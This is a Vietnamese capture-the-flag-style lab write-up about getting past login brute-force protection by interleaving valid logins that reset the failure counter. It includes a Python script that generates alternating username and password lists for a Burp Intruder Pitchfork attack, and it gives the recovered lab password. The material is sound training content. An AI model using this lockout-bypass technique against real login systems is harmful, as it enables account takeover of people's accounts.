






# Lab: Broken brute-force protection, IP block

## Mô tả lab

Bài lab này thuộc nhóm Authentication. Ứng dụng có chức năng đăng nhập và triển khai cơ chế chống brute-force dựa trên số lần đăng nhập sai. Tuy nhiên, bộ đếm đăng nhập sai sẽ được reset sau một lần đăng nhập thành công.

## Các bước thực hiện

### Phân tích chức năng đăng nhập

Thử đăng nhập với username và password bất kỳ.

Sau một vài lần đăng nhập sai, ứng dụng hiển thị thông báo khóa tạm thời.



Điều này cho thấy ứng dụng có cơ chế brute-force protection.

Tuy nhiên, khi thử xen kẽ một lần đăng nhập bằng credential hợp lệ:

```text
username: wiener
password: peter
```

thì bộ đếm đăng nhập sai được reset.

Điều này cho thấy có thể bypass brute-force protection bằng cách chèn một lần đăng nhập thành công sau mỗi vài lần thử sai.

### Khai thác

Mục tiêu là brute-force password của user:

```text
carlos
```

Tuy nhiên, nếu thử liên tục nhiều password cho `carlos`, ứng dụng sẽ khóa đăng nhập.

Để tránh bị khóa, ta có thể thực hiện theo pattern:

```text
carlos:<candidate_password_1>
carlos:<candidate_password_2>
wiener:peter
carlos:<candidate_password_3>
carlos:<candidate_password_4>
wiener:peter
...
```

Mỗi lần đăng nhập thành công bằng `wiener:peter` sẽ reset bộ đếm đăng nhập sai, từ đó tiếp tục brute-force password cho `carlos`.

Script bypass:

```python
with open("password.txt", "r", encoding="utf-8") as f:
    passwords = [line.strip() for line in f if line.strip()]

usernames = []
password_list = []

for i in range(0, len(passwords), 2):
    usernames.extend(["carlos", "carlos", "wiener"])

    password_list.append(passwords[i])

    if i + 1 < len(passwords):
        password_list.append(passwords[i + 1])

    password_list.append("peter")

print("====== USERNAMES ======")
print(*usernames, sep="\n")

print("\n")

print("====== PASSWORDS ======")
print(*password_list, sep="\n")
```

Chạy script sẽ in ra list username và password. Paste vào Burp và bruteforce:

- Attack type: Pitchfork





## Tìm password

Chỉnh thời gian chạy mỗi request là 1 giây.



Chạy Intruder.



Tìm được password của carlos:

```text
freedom
```



Lab solved.